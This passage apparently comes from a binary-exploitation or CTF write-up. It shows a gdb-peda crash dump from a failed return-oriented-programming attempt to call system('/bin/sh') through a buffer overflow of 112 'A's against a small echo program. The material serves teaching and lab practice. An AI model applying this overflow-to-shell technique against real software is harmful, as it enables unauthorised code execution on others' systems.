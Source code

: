 - This is when `pop r13; pop r14; pop r15` are done and `ret` is reached. But it doesn't know where to return to and hence gives `Segmentation fault`. Stack is again messed up. We didn't call function test() which puts value in `rbp` to `rdi` and then there's a jump at `r13` which takes param from `rdi`.

```bash
gdb-peda$ c
Continuing.

Program received signal SIGSEGV, Segmentation fault.
[----------------------------------registers-----------------------------------]
RAX: 0x0
RBX: 0x0
RCX: 0x7f6d94b04f33 (<__GI___libc_write+19>:    cmp    rax,0xfffffffffffff000)
RDX: 0x0
RSI: 0xf672a0 ("What do you want me to echo back? ", 'A' <repeats 112 times>, "/bin/sh\n")
RDI: 0x7f6d94bd7670 --> 0x0
RBP: 0x68732f6e69622f ('/bin/sh')
RSP: 0x7ffd3143a820 --> 0x0
RIP: 0x7f6d94a3c700 (<init_cacheinfo+80>:       sub    ecx,DWORD PTR [rcx+rcx*4-0x20])
R8 : 0x78 ('x')
R9 : 0x0
R10: 0xfffffffffffff28e
R11: 0x246
R12: 0x401070 (<_start>:        xor    ebp,ebp)
R13: 0x40116e (<main+15>:       call   0x401040 <system@plt>)
R14: 0x0
R15: 0x0
EFLAGS: 0x10246 (carry PARITY adjust ZERO sign trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
=> 0x7f6d94a3c700 <init_cacheinfo+80>:  sub    ecx,DWORD PTR [rcx+rcx*4-0x20]
   0x7f6d94a3c704 <init_cacheinfo+84>:  mov    QWORD PTR [rip+0x197c0d],r12        # 0x7f6d94bd4318 <__x86_raw_data_cache_size>
   0x7f6d94a3c70b <init_cacheinfo+91>:  xor    r12b,r12b
   0x7f6d94a3c70e <init_cacheinfo+94>:  sar    rax,1
[------------------------------------stack-------------------------------------]
0000| 0x7ffd3143a820 --> 0x0
0008| 0x7ffd3143a828 --> 0x76165f7cf4ad4fc4
0016| 0x7ffd3143a830 --> 0x401070 (<_start>:    xor    ebp,ebp)
0024| 0x7ffd3143a838 --> 0x0
0032| 0x7ffd3143a840 --> 0x0
0040| 0x7ffd3143a848 --> 0x0
0048| 0x7ffd3143a850 --> 0x89ec3d7b87cd4fc4
0056| 0x7ffd3143a858 --> 0x88cd76bb4e4b4fc4
[------------------------------------------------------------------------------]
Legend: code, data, rodata, value
Stopped reason: SIGSEGV
0x00007f6d94a3c700 in init_cacheinfo () at ../sysdeps/x86/cacheinfo.c:772
772     ../sysdeps/x86/cacheinfo.c: No such file or directory.
```

# Calling test()

